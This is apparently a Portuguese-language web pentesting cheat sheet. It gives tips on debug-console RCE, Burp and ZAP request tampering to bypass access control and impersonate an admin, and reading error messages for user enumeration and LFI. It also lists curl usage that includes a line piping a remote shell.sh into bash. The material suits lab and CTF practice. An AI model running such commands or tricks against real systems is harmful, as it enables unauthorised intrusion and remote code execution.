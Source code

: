 1: Se o `debug` estiver habilitado, acesse `/console` e inicie o `RCE`

2: `eval()`

## Browser

1: Combine o `Firefox` com o `Chrome`

2: Use complementos convenientes (add-ons): `Wappalyzer`, `Cookie-Editor`, `Shodan`, `Hack-Tools`, `Foxproxy`, etc

3: Se uma exploração não for bem sucedida, mude para `outro explorador`

4: Dev Tool (Ferramentas de desenvolvimento)

## Burpsuite and ZAP

### Burpsuite

1: Verifique os headers especiais

2: `Comunicação/Dependência` com outros `serviços/portas`

3: `Edite a solicitação` para ignorar o `controle de acesso`

4: Como 3, edite a solicitação para `representar o usuário administrador`

5: Analise a `API`

### ZAP

1: Como o `BurpSuite`

2: Quando se trata de `força bruta`, tem uma `velocidade muito maior`

## Curl

1: Acesse pelo método `GET` e verifique os cabeçalhos: `curl http://10.10.10.10`

2: Envie uma solicitação `POST`: `curl -X POST --data "id=123" http://10.10.10.10`

3: Alterne entre `POST` e `GET` para testar os endpoints da `API`

4: Escreva um script para `fuzz`

5: `Baixe` o arquivo: `curl http://10.10.10.10/file -o file`

6: Execute um `script remoto`: `curl http://10.10.10.10/shell.sh | bash`

## Error Messages

1: `Preenchimento incorreto` ==> Existência de `codificação`, como `Base64`

2: `Nenhum arquivo ou diretório` ==> Possível `LFI/RFI`

3: não é possível `registrar` este nome de usuário ==> Este nome de usuário `existe`

4: Acesse uma `URL inexistente` ==> Revelar `todos os caminhos (Rail)`
